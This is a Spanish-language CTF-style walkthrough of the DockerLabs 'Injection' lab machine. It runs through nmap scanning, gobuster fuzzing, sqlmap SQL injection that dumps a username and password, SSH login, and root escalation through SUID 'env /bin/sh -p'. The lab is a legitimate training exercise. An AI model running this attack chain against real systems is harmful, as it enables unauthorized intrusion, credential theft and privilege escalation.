 # 🐧Máquina Injection

![injection.jpg](%F0%9F%90%A7Ma%CC%81quina%20Injection%203cdabe8c114d4771b8dfd1565e37c924/injection.jpg)

**Índice**

# Requisitos previos.

---

### 💿 Instalar Docker.

Para utilizar las máquinas de DockerLabs, hay que instalar Docker en el sistema operativo.

Agrega más detalles aquí…

```bash
sudo apt install docker.io
```

![instalarDocker.jpeg](%F0%9F%90%A7Ma%CC%81quina%20Injection%203cdabe8c114d4771b8dfd1565e37c924/instalarDocker.jpeg)

### 🖥️ Desplegar máquinas vulnerables.

Al descomprimir el archivo.tar obtenemos dos archivos: 

- auto_deploy.sh
- maquinaVulnerable.tar

```bash
sudo bash auto_deploy.sh maquinaVulnerable.tar
```

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Injection%203cdabe8c114d4771b8dfd1565e37c924/4ea1c794-cb4f-442d-bdee-49902a27a101.png)

### 🚮 Eliminar máquinas vulnerables.

Al finalizar, eliminamos el laboratorio con la combinación de teclas: “Ctrl + c”

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Injection%203cdabe8c114d4771b8dfd1565e37c924/326748d7-855e-4464-b984-9c24497538ac.png)

# Reconocimiento

---

### 🕵‍♂️Verifico accesibilidad con el comando ping.

El comando “**ping -c 1**” enviando un solo paquete al host de destino.

```bash
ping -c 1 172.17.0.2
```

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Injection%203cdabe8c114d4771b8dfd1565e37c924/6d779b3d-db19-48d4-bbfb-f47f47738759.png)

La **ttl = 64** nos indica que se trata de una máquina Linux.

### 🕵‍♂️Escaneo de puertos.

Con la herramienta **nmap realizo un escaneo:**

```bash
sudo nmap -p- --open -sS -sC -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN scanInjection
```

- -p- ➡️  Busco todos los puertos abiertos dentro de una IP.
- —open ➡️ Escaneo de puertos abiertos.
- -sS ➡️ Escaneo de tipo SYN. Identifica puertos abiertos en un host sin completar la conexión TCP. Realiza un escaneo menos detectable y más rápido.
- -sC ➡️ Conjunto de scripts de reconocimiento para realizar este escaneo dentro de los puertos abiertos.
- -sV ➡️ Dentro de los puertos abiertos, encuentra la versión que esta corriendo.
- —min-rate=5000 ➡️ Velocidad mínima de envió de paquetes durante un escaneo. En este caso se enviarán paquetes a una velocidad no menor de 5000 paquetes por segundo. Se recomienda un —min-rate=2000.
- -n ➡️ evita resolución DNS.
- -Pn ➡️ No realiza ping.
- -vvv ➡️ reporta a medida que obtiene resultados.
- -oN ➡️ guarda el escaneo dentro de un fichero.

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Injection%203cdabe8c114d4771b8dfd1565e37c924/342a4341-76e2-4c42-931e-c157424b333b.png)

# Explotación

---

### 🕵🏼‍♂️ Puerto 80

Ingresamos y observamos que hay un panel de Login. Busco información relevante en el código HTML con la combinación de teclas “ctrl + u” pero no encuentro nada importante.

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Injection%203cdabe8c114d4771b8dfd1565e37c924/Untitled.png)

Trato de encontrar subdirectorios, archivos relevantes realizando **fuzzing  web** con la herramienta **gobuster*.***

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html
```

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Injection%203cdabe8c114d4771b8dfd1565e37c924/8bc67b0f-ca6c-4c6b-a872-f993779d8d09.png)

No encuentro ningún archivo ni subdirectorio importante. Como estoy en un panel de Login, intentaré realizar la intrusión mediante una inyección SQL.

### 🕵🏼‍♂️ Inyección SQL.

La inyección SQL la puedo hacer de manera manual o usando la herramienta **sqlmap.**

```bash
sqlmap -u http://172.17.0.2/ --forms --dbs --batch
```

- —forms ➡️ Este parámetro busca y prueba formularios HTML en la página web. Esto es útil para identificar y explotar vulnerabilidades SQL en formularios de entrada de datos.
- —dbs ➡️ Este parámetro enumera todas las bases de datos disponibles en el servidor de la base de datos una vez que se haya identificado una vulnerabilidad de inyección SQL.
- —batch ➡️ Este parámetro permite ejecutar en modo automático y sin necesidad de intervención del usuario. Es útil para automatizar el proceso de prueba y explotación, especialmente en entornos controlados donde se sabe que la máquina es vulnerable.

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Injection%203cdabe8c114d4771b8dfd1565e37c924/fef2f77c-2213-484c-bd59-9c089a925264.png)

De todas estas bases de datos, voy a buscar usuarios y contraseñas, en la base de datos, “register”

```bash
sqlmap -u http://172.17.0.2/ --forms -D register --tables --batch
```

- -D ➡️ Indica que base de datos debe atacar.
- —tables ➡️ Enumera todas las tablas de la base de datos.

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Injection%203cdabe8c114d4771b8dfd1565e37c924/f0fc9586-fe8c-400b-bd01-04adb312bee2.png)

Encuentro la tabla “users”. Voy a buscar las columnas que tiene dicha tabla.

```bash
sqlmap -u http://172.17.0.2/ --forms -D register -T users --columns --batch
```

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Injection%203cdabe8c114d4771b8dfd1565e37c924/e92d0472-9188-4468-88c8-8fb5e255d508.png)

Por último, listo las filas y columnas.

```bash
sqlmap -u http://172.17.0.2/ --forms -D register -T users -C passwd,username --dump --batch 
```

- -C ➡️ Especifica las columnas de las que quiero extraer información. En este caso, passwd y username.
- —dump ➡️ Extrae y muestra el contenido de las columnas especificadas.

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Injection%203cdabe8c114d4771b8dfd1565e37c924/2af52508-2637-43e2-92c2-992090afca8e.png)

Finalizando la inyección SQL obtengo:

<aside>
💡 usuario: dylan
contraseña: KJSDFG789FGSDF78

</aside>

# Intrusión

---

### 🔓Accediendo al sistema.

Al obtener usuario y contraseña, ingreso por el puerto 22, protocolo SSH.

```bash
ssh dylan@172.17.0.2
```

Con el comando ***whoami*** verifico quién soy para ver si tengo acceso o no, como usuario root.

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Injection%203cdabe8c114d4771b8dfd1565e37c924/da11aaea-4cff-45c1-b665-661a6c14cfc7.png)

### 🔓Escalada de privilegios.

Una vez hayamos obtenido acceso remoto al servidor, es necesario proceder con la escalada de privilegios, para poder convertirnos en el usuario root del sistema y así contar con todo tipo de permisos sobre el mismo.

Con el comando ***sudo -l*** voy a comprobar posibles formas de escalar privilegios.

```bash
dylan@1d20c3dbed74:~$ sudo -l
```

Intento con otro comando:

```bash
find / -perm -4000 2>/dev/null
```

Este comando sirve para buscar binarios con permiso de root, dentro del sistema.

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Injection%203cdabe8c114d4771b8dfd1565e37c924/8ce02321-eb9c-407c-8cfe-9c085f61a98f.png)

En [https://gtfobins.github.io/](https://gtfobins.github.io/) puedo ver instrucciones para poder escalar privilegios utilizando binarios. De entre esas opciones, lo mejor es ir probando cuales puedo utilizar. En particular voy a  buscar /env.

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Injection%203cdabe8c114d4771b8dfd1565e37c924/23877e9e-ba5c-42b6-b751-97cc314c8790.png)

```bash
/usr/bin/env /bin/sh -p
```

Es importante recordar, de escribir la ubicación absoluta. En gtfobins, el "." me indica que es una ubicación relativa.
Luego de ejecutar, obtengo acceso root.

![Untitled](%F0%9F%90%A7Ma%CC%81quina%20Injection%203cdabe8c114d4771b8dfd1565e37c924/3c8b4643-783e-47b0-bf5e-bac5cce62e55.png)

---